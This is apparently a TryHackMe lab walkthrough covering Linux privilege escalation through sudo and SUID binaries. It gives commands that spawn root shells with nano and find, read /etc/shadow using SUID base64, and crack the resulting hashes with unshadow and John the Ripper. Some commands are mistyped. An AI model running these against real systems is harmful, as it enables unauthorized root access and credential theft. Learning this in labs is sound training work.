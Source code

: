 ### ***# TASK 6: PRIVILEGE ESCALATION: SUDO***
- To find the programs that karen can run with sudo, use: 
  - ```sudo -l```
  - There are 3 programs that she is able to run w/ sudo. 
- The second question asks what the content of flag2 is? If you run ```find -name flag2.txt``` you'll be informed that you need root privileges to access this file. 
- You'll notice that nano is one of these sudo executables. Let's use it. 
  - Run ```sudo nano```. 
  - Put it in executable mode with ```ctrl+r, ctrl+x```. 
  - Execute the command ```rest; sh 1>&20 2>&0```
  - Exit out of nano, and you've got root privileges. 
  - If upon exiting, it looks like your screen is frozen, just type: ```clear```. 
- An alternative method is using find (since it was listed as a sudo executable). 
  - Use the command: ```sudo find . -exec /bin/sh \; -quit```
- The last question asks for Franks hashed password. Since we've obtained root access just cat the password file:
  - ```cat /etc/shadow```
 
![sudo find priv esc](https://github.com/ryangreggw/THM-BOXES/assets/25268281/1d5ab2c1-9544-482d-9b10-c0bffbb9c883)
![linux password file](https://github.com/ryangreggw/THM-BOXES/assets/25268281/dc3a00ec-53a5-4ab1-b305-8536a8d677b0)

### ***# TASK 7: PRIVILEGE ESCALATION: SUID***
- To find list files that have SUID or SGID bits set, use the command: 
  - ```find / -type f -perm -04000 -ls 2>/dev/null```
  - You can use gtfobins to compare exploitable SUID bits
    - https://gtfobins.github.io 
  - If you go through the list of files with SUID bits, you'll see that base64 is one of them. Base64 is a good one to use because since it has SUID bits, meaning that you can read files that Karen doesn't have permission to via the base64 command. Base64 will encode the file but you can also decode it. 
- THM tells us to use the "unshadow tool" to create a file crackable by John the Ripper. In order to do this, we need 3 things: 
  - Usernames, passwords, and a wordlist for john the ripper to go off of. 
- We can utilize base64 to read/create two .txt files of the passwords and usernames. 
  - **You need to be ssh'd into Karen's account for the following commands:**
    - Note that Karen is not permitted to run sudo on this sytem (```sudo -l```). Unfortunately, we can just use gtfobins. 
    - Although we can see the /etc/passwd file, we're still going to go through the motions of using base64:
      - ```base64 /etc/passwd | base 64 -d```
      - Now, copy and paste this into a text editor, you can use plume, sublime txt, etc. Save this as a .txt file. 
    - Next, use the same process for the /etc/shadow file. (You'll notice that you can not read this one if you just ```cat /etc/shadow```). 
      - ```base64 /etc/shadow | base 64 -d```
      - Once again, copy this and create another .txt file with it. 
    - Last, THM tells you to use the "unshadow" tool, open up another tab in terminal so you're root on your system. 
      - If you use ```ls -a``` you should see the .txt files with the /etc/passwd and /etc/shadow files that you created. 
- Now, we want to use the unshadow tool to combine the two files: 
        - ```unshadow <file1.txt> <file2.txt> > <name of file to output data.txt>```
- After that, run john the ripper one the combined file: 
  - ```john --<filepath of word list you want to use> <file you want to run it on>```  
    - ```john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt```
  - If you wait long enough, you'll get 3 usernames/passwords. 
      - Now you have the answers to question 1/2. 
- The last question asks: What is the content of the flag3.txt file? 
  - We can just use the ```find``` command for this and then utilize base64 again. 
    - To find the file, use the command: 
      - find -name flag3.txt 2>/dev/null
        - should return ```./home/ubuntu/flag3.txt```